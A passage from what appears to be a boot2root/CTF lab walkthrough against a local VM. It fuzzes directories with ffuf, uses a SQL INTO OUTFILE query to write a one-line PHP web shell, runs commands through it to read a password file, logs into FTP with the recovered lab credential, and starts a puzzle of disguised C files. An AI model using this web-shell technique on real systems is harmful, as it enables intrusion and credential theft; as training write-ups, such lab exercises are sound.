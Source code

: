 ```
...
```
Reading files was actually limited and writing files was even more difficult. After enumerating more on the `/forum` we find a directory:  
```
ffuf -w /opt/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -u https://192.168.56.114/forum/FUZZ -fs 288
...
templates_c             [Status: 301, Size: 330, Words: 20, Lines: 10, Duration: 4ms]
...
```

After some tests, we finally created a malicious php script in this directory with a SQL Query: 
```
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/forum/templates_c/script.php'
```
Making a request to the script should execute it:
```
https://192.168.56.114/forum/templates_c/script.php?cmd=whoami
```
It works ! We have now a Remote Code Excution on the machine. </br>

The next step is to found interesting files on the machine. And In the `/home` directory we found the folder `LOOKATME` containing the file `password`:
```
https://192.168.56.114/forum/templates_c/script.php?cmd=cat%20/home/LOOKATME/password
...
lmezard:G!@M6f4Eatau{sF" 
```

### FTP

These credentials are for the ftp account of `lmezard`. Once connected, we found 2 files:
```
ftp> dir
-rwxr-x---    1 1001     1001           96 Oct 15  2015 README
-rwxr-x---    1 1001     1001       808960 Oct 08  2015 fun

$ cat README 
Complete this little challenge and use the result as password for user 'laurie' to login in ssh

$ file fun          
fun: POSIX tar archive (GNU)
```

### Laurie

The tar archive contains `750` files with the extension `.pcap` but these files are actually `ASCII text` files. </br>
And each of them have the same format, the first line is a c code line and the last one is an index identifying the file order: 
```
$ cat YJR5Z.pcap       
#include <stdio.h>

//file1 
```
